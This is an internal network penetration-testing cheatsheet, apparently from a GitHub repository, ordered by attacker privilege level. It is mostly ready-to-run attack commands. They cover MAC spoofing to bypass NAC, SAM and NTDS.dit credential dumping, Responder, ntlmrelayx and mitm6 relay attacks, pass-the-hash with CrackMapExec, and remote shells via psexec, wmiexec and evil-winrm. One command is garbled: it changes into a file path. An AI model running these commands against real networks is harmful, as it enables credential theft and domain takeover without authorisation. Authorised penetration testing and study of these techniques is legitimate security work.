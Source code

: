 # Internal Penetration Testing

## **No network access**

### Wi-Fi

* Crack WPA or crack/replay PEAP

> For more details, see next cheatsheet : WIFI

### NAC - MAC filtering

1. Spoof mac from any authorized device \(e.g printer or voip phone\) and disconnect it: 
```sh
macchanger -r eth0
```
2. force your static IP to match the one that you spoofed the mac from : 
```sh
sudo ifconfig 10.11.12.13/24 && sudo ip route add default via <gateway_ip>
```

### NAC - 802.1X

* [Fenrir](https://github.com/Orange-Cyberdefense/fenrir-ocd) (IEEE 802.1X bypass)

---

## **No account yet**

### Physical access

Boot from Kali Linux and dump creds

```bash
cd SystemRoot%\system32\Config\SAM
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY -local
```
> For more details, see next [post-exploitation-windows](05-post-exploitation-windows.md)
---

### Port and service scan

nmap

```sh
nmap -Pn -n -sSUV -n -vvv --reason -pT:137-139,445,U:137-139 -oA SMB <hosts>
nmap --version-all -sV -sC -oA top1000 <hosts>
nmap --version-all -sV -sC -p- -oA allports <hosts>
```

Search for low hanging fruits \(MS17 / default password TOMCAT VNC ... \)

```bash
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/http/tomcat_mgr_login
searchsploit <service_name>
```

---

### Man-In-The-Middle

Responder + NTLMrelayx

First we need to edit  responder.conf like this :

`vim /usr/share/responder/Responder.conf`

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

Then we create a list of targets :

```bash
nmap -T4 -Pn -p 445 --open -oA <outfile> <targets>
cat *.gnmap | grep -i "open/tcp" | cut -d " " -f2 | sort -u > perim_up_smb.txt
cme smb perim_up_smb.txt --gen-relay-list relaylistOutputFilename.txt
```

> if the scope is small : `cme smb <targets> --gen-relay-list relaylistOutputFilename.txt`

After we can run Responder + ntlmrelayx

```bash
python Responder.py -I <interface> -rdw
ntlmrelayx.py -tf relaylistOutputFilename.txt
```

> This command will generate many log files which contain SAM hashes, just get all these files and store it into a formatted file that includes all hashes. \( `cat *.sam |sort -u > hashs.txt` \) Then you can just run CrackMapExec on full scope using theses hashes :

`crackmapexec smb perim_up_smb.txt -u Administrator -d '.' -H hashs.txt --lsa`

mitm6 + NTLMrelayx

```bash
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
ntlmrelayx.py -tf relaylistOutputFilename.txt -6 
```

ARP \(use with caution !\)

```bash
Bettercap
Cain.exe (& Abel)
```

---

### **Domain enum**

Get DC IP

```bash
cat /etc/resolv.conf
nslookup <domain>
```

Password policy \(especially lockout threshold for bruteforce\)

```bash
enum4linux -P -o <target>
enum4linux -a <target>
```

Open shares \(anonymous SMB, NFS, FTP, etc\)

SMB

```bash
smbmap -H IP -r DOSSIER
smbmap -H IP --download DOSSIER

# SMB V1
smbclient -L ///192.168.0.1 -U <user> -c ls [--option='client min protocol=NT1']
mount //10.11.1.136/"Bob Share" /mnt/bob [-o vers=1.0]
```

NFS 

```bash
showmount -e <target>
mount <target>:/home/xx /mnt/yy 
```

kerberos

```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='megabank.local',userdb=/root/users.txt 10.10.10.169
./kerbrute_linux_amd64 userenum -d <domain> usernames.txt -debug
```

---

## Unprivileged account only 

### Get a shell

> for winRM do : `PATH="ruby -e 'puts Gem.user_dir'/bin:$PATH"`

```bash
.\WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
evil-winrm -i <target> -u <user> -p '<pass>'
python psexec.py '<user>:<pass>@<target>'
```

---

### Domain enum

```bash
enum4linux -a <target_dc> -u <USER> -p <PASSWORD> -d <domain>
bloodhound.py -d <DOMAIN> -u <user> -p <password> -dc <FQDN-SERVER> -c all
python ldapdomaindump.py -u '<domain>\<user>' -p '<pass>' <target>
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```
> More details are available in the next cheatsheet Domain Escalation

---

### SMB restricted shares

```bash
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 
smbget -rR smb://<target>/<share>/ -U <user>
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`
upload .ico .scf => Responder/NTLMrelayx
```

---

### Low Privilege Escalation

See next cheatsheet LPE Windows or LPE Linux

---

## **Local Admin account**

### Post-Exploitation

See next cheatsheets Post-Ex Windows and Post-Ex Linux

### Replay the secrets found

LM/NTLM hash or cleartext password with CrackMapExec

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --lsa
```

### Pivoting

See next cheatsheet Pivoting

### Domain escalation

See next cheatsheet Domain Escalation

---

## **Domain admin account**

### Dump NDTS.dit from DC

```bash
cme smb 192.168.1.100 -u <domain_admin> -p '<pass>' --ntds
```